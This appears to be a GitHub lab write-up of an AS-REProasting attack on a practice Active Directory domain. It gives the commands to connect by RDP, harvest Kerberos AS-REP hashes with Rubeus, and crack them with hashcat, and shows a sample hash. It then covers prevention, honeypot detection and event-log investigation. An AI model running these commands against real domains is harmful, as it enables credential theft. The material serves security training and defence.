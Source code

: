 # AS-REProasting Lab

## Objective

Perform a AS-REProasting attack on the Windows 10 machine and obtain crackable hashes, find the user account 'svc-iam' then crack password on Kali Linux.
Connect to DC1 and investigate Event Manager to find the attack. 

## What is Kerberoasting

The AS-REProasting attack is similar to the Kerberoasting attack; we can obtain crackable hashes for user accounts that have the property Do not require Kerberos preauthentication enabled. The success of this attack depends on the strength of the user account password that we will crack.

## Skills Learned
- Run a AS-REProasting attack
- Filtering the Windows Event Viewer logs
- Cracking spn.txt files with Hashcat

## Tools Used
- Windows Event Log
- Hashcat
- Rubeus
- Kali Linux

## Attack

First we need to RDP over to our WIN10 machine and perform the AS-REProasting attack. I will be using Rubeus for this attack.

```
xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution
xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution /drive:share,/home/XXXXXXX
```

Next we need to open up a command prompt and CD to our downloads folder where the file we need to run in located.

```
cd C:\Users\bob\Downloads
```

To obtain crackable hashes, we can use Rubeus again. However, this time, we will use the asreproast action. If we don't specify a name, Rubeus will extract hashes for each user that has Kerberos preauthentication not required

```
.\Rubeus.exe asreproast /outfile:asrep.txt
```
![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/97415255-a4d8-4b43-b6ed-4fd0857a0fae)

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f99d943e-91bd-447b-8f93-347f72ebe310)

Now we have our file to crack we need to get this file back over to our Kali box. 

For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$ we can edit the file usim Vim on the kali command line. 

```
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/962602f8-05a3-455e-b311-ea4664341b78)

We can now run this file trough hashcat

```
sudo hashcat -m 18200 -a 0 asrep.txt /usr/share/wordlists/rockyou.txt --outfile asrepcrack.txt --force
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/465e6765-7ec9-4287-8cc7-d2c897dc1225)

Once hashcat cracks the password, we can print the contents of the output file to obtain the cleartext password

```
sudo cat asrepcrack.txt
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f611dd48-cad7-4cae-9ec0-f8810a76f226)


## Prevention

The success of attacks on users with "Do not require Kerberos preauthentication" depends on password strength. This property should be used only when necessary, and accounts should be reviewed quarterly to ensure it isn't improperly assigned. Regular user accounts with this property often have weaker passwords, making them easier targets than service accounts with SPNs. To protect these users, a separate password policy requiring at least 20 characters should be enforced to prevent cracking attempts.

## Detection

### HoneyPot

A honeypot user is an effective detection tool in AD environments, as any login attempts for this unused account are likely malicious and warrant inspection. However, if it's the only account with "Kerberos Pre-Authentication not required," advanced threat actors might identify it as a honeypot and avoid it. To create an effective honeypot user, ensure the account is old and appears unused, with service account passwords ideally over two years old and regular user passwords less than one year old. The account should have logins after the password change and possess some privileges to make it an attractive target for attackers.

### Investigate

When we executed Rubeus, an Event with ID 4768 was generated, signaling that a Kerberos Authentication ticket was generated

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/6a25dc6c-c2b1-421e-9927-d9e29cda4283)

AD generates this event for every Kerberos authentication, resulting in a high volume of logs. However, the source of authentication can be tracked, allowing correlation of known good logins against potential malicious activities. While inspecting specific IP addresses can be challenging, especially if users move between office locations, scrutinizing the specific VLAN and alerting on any deviations can be effective.



